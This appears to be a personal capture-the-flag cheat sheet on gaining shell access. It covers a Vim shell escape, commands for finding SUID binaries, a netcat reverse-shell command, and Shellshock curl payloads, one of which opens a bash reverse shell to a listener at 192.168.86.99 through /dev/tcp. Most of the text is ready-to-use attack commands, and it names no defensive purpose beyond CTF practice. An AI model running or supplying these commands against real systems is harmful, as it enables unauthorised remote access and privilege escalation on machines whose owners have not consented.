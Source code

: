 // These are actual notes, and not relevant to the notes app.

# CTF Notes

## Opening a shell
1. Vim : !/bin/bash
2. netcat reverse shell _(see below)_
3. Bash shellshock, in cgi and sometimes [ssh](https://resources.infosecinstitute.com/bash-bug-cve-2014-6271-critical-vulnerability-scaring-internet/)

* list binaries with SUID bit set:

      find / -perm -u=s -type f 2>/dev/null
      
* list files owned by an account:

      find / -user <username> 2>/dev/null

#### Netcat reverse shell
On the target machine shell : `nc <host> <any port> -e /bin/bash`

On your machine: `nc -lvp <port no>`

#### Bash shellshock

Test if vulnerable:

    curl -A "() { ignored; }; echo Content-Type: text/plain ; echo  ; echo ; /usr/bin/id" http://<ip>/cgi-bin/test/test.cgi
To get shell: (do `nc -lvp 443` on your machine first)

    curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.86.99/443 0>&1' http://<ip>/cgi-bin/test/test.cgi

